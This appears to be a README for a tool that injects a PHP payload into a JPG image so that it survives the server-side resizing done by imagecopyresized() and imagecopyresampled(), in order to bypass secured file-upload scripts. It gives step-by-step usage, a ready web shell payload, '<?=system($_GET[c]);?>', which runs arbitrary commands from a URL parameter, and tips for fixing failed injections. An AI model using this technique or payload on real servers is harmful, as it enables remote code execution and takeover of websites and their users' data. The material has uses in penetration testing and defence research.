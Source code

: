 # jpg_payload

The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations caused by PHP functions imagecopyresized() and imagecopyresampled().

It is necessary that the size and quality of the initial image are the same as those of the processed image.

1) Upload an arbitrary image via secured files upload script
2) Save the processed image and launch:

php jpg_payload.php <jpg_name.jpg> <shell_code>

e.g.

```txt
php jpg_payload.php lemon.jpg '<?=system($_GET[c]);?>'
```

In case of successful injection you will get a specially crafted image, which should be uploaded again.

Since the most straightforward injection method is used, the following problems can occur:
1) After the second processing the injected data may become partially corrupted.
2) The jpg_payload.php script outputs "Something's wrong".

If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another initial image.